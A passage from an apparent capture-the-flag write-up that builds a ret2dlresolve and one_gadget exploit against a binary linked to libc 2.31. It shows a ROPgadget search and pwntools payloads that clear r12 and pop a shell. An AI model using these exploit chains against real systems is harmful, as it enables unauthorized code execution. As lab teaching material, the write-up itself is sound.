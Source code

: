 ![one_gadget.png](images/one_gadget.png)

We will use the first one which has constraints are r12 and r15 have to be null. Examine the register and we can see that r15 is null already, all we need now is r12 have to be null. Everything is easy when we have libc. Using `ROPgadget` and we can get this:

```
$ ROPgadget --binary libc-2.31.so --ropchain | grep xor | grep r12 | grep ret
...
...
0x00000000000d31f0 : xor r12d, r12d ; mov rax, r12 ; pop r12 ; ret
```

We will use this to clear the r12. I use xor because we don't need to add those `p64(0)` then pop in a limited space like this situation. Before we continue, let choose any address for rbp in the write of ret2dlresolve so that it will jump to there after the leak. I will choose the rw_section (because now we don't need stack more) so the code for ret2dlresolve will look like this:

```
# Conduct ret2dlresolve
dlresolver = 0x401000
payload = p64(rw_section)           # Fake rbp, choose random writable address
payload += p64(dlresolver)          # Dlresolver
payload += p64(reloc_arg)           # Fake reloc_arg
payload += p64(mov_rsi_rbp_read)    # Return address
p.send(payload)
```

And now, after the leak it will get input from us again. Just pass that xor 12 and one gadget, we created the shell:

```
one_gadget = 0xe6c7e
xor_r12_pop_r12 = 0xd31f0

payload = p64(0)                               # Fake rbp, not use more
payload += p64(libc_base + xor_r12_pop_r12)    # rip
payload += p64(0)                              # For that pop r12
payload += p64(libc_base + one_gadget)         # Return address
p.send(payload)

p.interactive()
```
